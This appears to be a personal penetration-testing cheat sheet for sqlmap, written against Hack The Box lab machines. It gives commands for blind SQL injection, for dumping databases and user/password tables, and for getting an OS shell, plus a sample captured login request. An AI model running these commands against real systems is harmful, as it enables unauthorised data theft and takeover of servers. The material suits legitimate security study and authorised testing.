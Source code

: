 # Sqlmap

Sqlmap is a tool that automates the process of detecting and exploiting SQL injection flaws and taking over of database servers.

## Blind SQL injection

We can inject SQL code but not see the output.

```bash
sqlmap -u "ws://soc-player.soccer.htb:9091" --data '{"id": "*"}' --dbs --threads 10 --
level 5 --risk 3 --batch
```

- `-u` Target URL
- `--data` Data string to be sent through POST (e.g. "id=1")
- `--dbs` Enumerate DBMS databases
- `--threads` Max number of concurrent HTTP(s) requests (default 1)
- `--level` Level of tests to perform (1-5, default 1)
- `--risk` Risk of tests to perform (1-3, default 1)
- `--batch` Never ask for user input, use the default behavior

If we found a DB we can dump its content with:

```bash
sqlmap -u <URL> --data '{"<FIELD>": "*" }' --threads <NUMBER> -D <database_name> --dump --batch
```

- `D` DBMS database to enumerate
- `--dump` Dump DBMS database table entries

To obtain a reverse shell we can use:

```bash
sqlmap -u <URL> --data '{"<FIELD>": "*" }' --threads <NUMBER> --os-shell --batch
```

More examples

```
sqlmap -D usage_blog --threads 10 -T admin_users,users -C username,password --batch --dump -r ~/Documents/Proyectos/hack-the-box/machines/usage/req_password --ignore-code 401
```

Where:

- `-D` DBMS database to enumerate
- `-T` DBMS database tables to enumerate
- `-C` DBMS database table columns to enumerate

And we can use a request file to avoid the need of the URL:

```bash
sqlmap -r <request_file> --threads <NUMBER> --os-shell --batch
```

A request file would look something like this:

```
POST /dirb_safe_dir_rf9EmcEIx/admin/dologin.php HTTP/1.1
Host: www.securewebinc.jet
Content-Length: 25
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://www.securewebinc.jet
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.6261.112 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://www.securewebinc.jet/dirb_safe_dir_rf9EmcEIx/admin/login.php
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=2jn4imainfddc3vatcddfoafg5
Connection: close

username=admin&password=a
```

## Docs

- https://github.com/sqlmapproject/sqlmap/wiki/Usage
